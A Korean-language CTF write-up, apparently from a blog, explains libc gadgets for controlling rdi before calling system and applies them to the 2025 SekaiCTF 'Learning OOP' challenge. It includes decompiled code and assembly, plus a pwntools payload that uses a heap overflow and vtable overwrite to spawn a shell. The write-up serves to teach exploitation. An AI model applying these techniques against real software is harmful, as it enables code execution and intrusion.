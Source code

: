 `system`은 호출할 수 있는데 `rdi`를 `&"/bin/sh\x00"`로 변조할 수 없다면 2차전 시작이다. `rdi`를 변조할 수 있는 방법을 온갖 창의적인 생각과 함께 바이너리에서 찾아내야 한다. 이럴 때 보통 `libc base`는 가지고 있을 테니 쓸만한 가젯 몇 개를 정리해보겠다.

```
0x000000000009ca97 : mov rdi, qword ptr [rax + 0x640] ; call qword ptr [rax + 0x638]
0x00000000000984df : mov rdi, qword ptr [rdi + 0x10] ; call qword ptr [rax + 0x380]
0x00000000000af7b5 : mov rdi, qword ptr [rdi + 0x48] ; mov rsi, r12 ; call rax
0x0000000000085fba : mov rdi, qword ptr [rdi + 0xe0] ; call rax
0x0000000000085f7d : mov rdi, qword ptr [rdi + 0xe0] ; jmp rax
0x00000000000a1f47 : mov rdi, qword ptr [rdi + 8] ; call qword ptr [rbx]
```

특히 첫 번째, 두 번째 가젯은 힙에 있는 함수 포인터를 참조하여 실행할 때 쓰기 좋다. 예시로 2025 sekaictf의 Learning OOP라는 문제를 들어보겠다.

---
# Learning OOP

```c
void update(void)
{
  unsigned __int64 v0; // rbx
  unsigned __int64 i; // [rsp+0h] [rbp-20h]
  Animal *v3; // [rsp+8h] [rbp-18h]

  for ( i = 0LL; i <= 9; ++i )
  {
    v3 = (Animal *)pets[i];
    if ( v3 )
    {
      if ( !(unsigned int)Animal::fullness_down(v3)
        || (v0 = (int)Animal::age_up(v3), (*(__int64 (__fastcall **)(Animal *))(*(_QWORD *)v3 + 24LL))(v3) < v0) )
      {
        Animal::die(v3);
        operator delete(v3, 0x118uLL);
        pets[i] = 0LL;
        --num_pets;
      }
    }
  }
}
```

`v3`은 `heap chunk`를 가리키는 주소이다. `v3 chunk`에 `vtable`의 역할을 하는 다른 `chunk`의 주소가 있다. `*v3`에 저장되어 있는 함수 포인터를 참조하여 실행시키는 걸 알 수 있다. 이 문제에는 `heap overflow`가 있기 때문에 `vtable overwrite`는 할 수 있지만 `rdi`가 `v3`이라서 `rdi`에 `&"/bin/sh"`를 저장할 수가 없다. 

```asm
mov     rax, [rbp+var_18]
mov     rax, [rax]
add     rax, 18h
mov     rdx, [rax]
mov     rax, [rbp+var_18]
mov     rdi, rax
call    rdx
```

어셈블리어로 보면 위와 같다. 위의 분석에 따르면 `rdx, rdi, rax` 모두 `heap` 영역을 가리킨다. 따라서 `heap overflow` 취약점을 이용해서 `mov rdi, qword ptr [rdi + 0x10] ; call qword ptr [rax + 0x380]` 가젯의 `offset`을 잘 맞춰서 값을 세팅해주면 `rdi`도 변조하고 `system`도 호출할 수 있다.

```python
ret = l.address + 0x000000000002882f
mov_rdi_qword_ptr_rdi_0x10_call_qword_ptr_rax_0x380 = l.address + 0x00000000000984df
call_qword_ptr_rax_0x18 = l.address + 0x000000000008ac50
binsh = list(l.search(b'/bin/sh'))[0]
payload = p64(ret) * 3 + p64(mov_rdi_qword_ptr_rdi_0x10_call_qword_ptr_rax_0x380)
payload = payload.ljust(0x100, b'\x00') + p32(0) + p32(20) + p32(7) + p32(0) + p64(0x121) + p64(heap_base + 0x13a38)
payload += b'\x00' * 0x8 + p64(binsh) + p64(l.sym['system']) +  b'\x00' * 0xe8 + p32(0) + p32(20) + p32(7) + p32(0) + p64(0x121) + p64(heap_base + 0x13a38)
payload += b'\x00' * 0x100 + p32(0) + p32(20) + p32(7) + p32(0) + p64(0x121) + p64(heap_base + 0x13a38)
payload += b'\x00' * 0x100 + p32(0) + p32(20) + p32(7) + p32(0) + p64(0x121) + p64(heap_base + 0x13a38)
payload += p64(0) * 3 + p64(call_qword_ptr_rax_0x18)
print(hex(l.sym['system']))
#gdb.attach(p, '\n'.join(gdb_cmds2))
create(1, payload)
p.interactive()
```